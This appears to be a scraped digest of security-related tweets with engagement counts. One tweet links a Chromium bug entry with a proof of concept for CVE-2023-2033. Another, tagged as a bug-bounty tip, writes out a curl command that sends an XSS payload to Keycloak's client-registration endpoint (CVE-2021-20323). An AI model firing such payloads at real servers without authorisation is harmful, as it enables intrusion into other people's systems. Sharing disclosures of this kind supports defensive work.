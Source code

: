 <td>Favorites: <code>273</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1681740693084188674 _at 2023-07-19, 19:00:01_**
<blockquote>
The bug entry is now open with a PoC (CVE-2023-2033):
https://t.co/jw2h9peUTW
</blockquote>

* https://bugs.chromium.org/p/chromium/issues/detail?id=1432210

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# alone_breecher
**https://twitter.com/alone_breecher/status/1681706774728933387 _at 2023-07-19, 16:45:14_**
<blockquote>
Title:-  CVE-2021-20323 - A post based XSS  Keycloak

POC to verify :- 

curl -v -X POST {BaseURL}/realms/master/clients-registrations/default -H "Content-type: application/json" -d "{\"&lt;img src=x onerror=\\\"alert('XSS')\\\"/&gt;\":1}"

#BugBounty #bugbountytips #cybersecuritytips https://t.co/nMbdN4dwt8
</blockquote>

<table><tr>
<td><img src="pictures/4fef1f0160d82d6f0adc21f1afe5b47d0dbb74965cbe2cc72001440017df9d7e.jpg" alt="4fef1f0160d82d6f0adc21f1afe5b47d0dbb74965cbe2cc72001440017df9d7e.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>122</code></td>
<td>Favorites: <code>370</code></td>
</tr></table>

